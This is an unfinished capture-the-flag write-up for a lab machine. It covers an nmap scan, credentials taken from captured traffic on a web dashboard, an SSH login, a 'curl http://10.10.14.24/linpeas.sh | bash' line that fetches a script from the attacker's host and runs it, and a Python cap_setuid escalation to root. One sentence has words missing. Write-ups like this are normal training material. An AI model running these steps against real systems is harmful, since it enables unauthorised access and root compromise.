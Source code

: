 *Not finished*

We start with nmap
```
nmap -sC -sV {victim ip}
```

We use FTP to login to the victim's box. 

```
ftp {victim's ip}
```
The login with anonymous access fails, so we attempt to login through the HTTP server.

We can visit the web application via `{ip}:80` and there is a data dashboard there without login.

When opening the web address `10.10.10.245/data/0` and capturing the output in wireshark, we get the credentials `nathan:Buck3H4TFORM3!`, we use this to `ssh` into the victim's box.

### Privilege Escalation

On our local we download linpeas and run `sudo python3 -m http.server 80` so we can get it via `curl` from the victim's box.

```
curl http://10.10.14.24/linpeas.sh | bash
```

After running LinPEAS on the attacking box we get

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The report contains an interesting entry for files with capabilities. The is found to have and , which isn't the default setting. According to the documentation, allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

The following Python commands will result in a root shell:

```
import os  
os.setuid(0) 
os.system("/bin/bash")
```

It calls os.setuid() which is used to modify the process user identifier (UID).

If I run:

```
$ id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

I can therefore get the root flag by `cat /root/root.txt`